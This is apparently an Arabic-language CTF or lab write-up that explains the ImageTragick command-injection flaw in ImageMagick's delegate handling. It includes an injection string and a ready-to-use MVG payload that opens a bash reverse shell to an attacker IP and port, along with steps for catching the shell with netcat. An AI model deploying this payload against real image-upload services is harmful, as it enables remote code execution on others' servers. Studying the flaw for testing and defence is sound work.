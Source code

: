 الوجهين هدول علامة لل tragic و الي معناه "مأساة" و بما انو الامر upload image ف رح تفهم ان الدلالة  لاحد الثغرات اسمها imagetragick هي موقع خاص بالثغرة\([اضغط هنا](https://imagetragick.com/)\)و انا رح اشرحها الان 

{% hint style="info" %}
حسب الموقع الثغرة هي الها اكتر من شكل و هي تحديدا بالمكتبة / library الي اسمها [ImageMagick](https://imagemagick.org/index.php) و الي بحد ذاتها موجودة بأكتر من لغة برمجة.

طيب من الاشياء المصابة بيها هي RCE و السبب وراء ال RCE ان ما بحصل عملية تصفية / filtering ل الي بتم ادخاله من قبل المستخدم بشكل صح و الامر بحصل كلاتي : 

قال ان imagemagick بتسمح بمعالجة الصور باستخدام مكتبات خارجية عن طريق ميزة اسمها **delegate**  و الي هي اصلا فيها 

**system\(\)** 

و الي بتاخد الامر من ملف config اسمه delegate.xml فبسبب التصفية الغير صحيحة للمدخلات الي بتوصل للعامل / parameter الي هو 

**%M**

فبتحصل حقن الاوامر و وحدة من ال delegate's الافتراضية ان بقبل يعالج https request بالشكل الاتي :

 

```text
"wget" -q -O "%o" "https:%M"
```

مكان ال %M بحصل الحقن كلاتي :



```text
`https://example.com";|ls "-la`
```

فشكل ال payload رح يكون كلاتي:



```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|setsid /bin/bash -i>/dev/tcp/10.10.14.10/1111 0<&1 2>&1")'ms
pop graphic-context
```

طبعا غير ال ip & port  لل ip & port الخاصين فيك و للعلم رح يكون الملف بصيغة **mvg** 
{% endhint %}

بعد تكون شغلت ال netcat و رفعت ال exploit.mvg رح يجيك ال shell

![Got shell](../.gitbook/assets/image%20%2826%29.png)
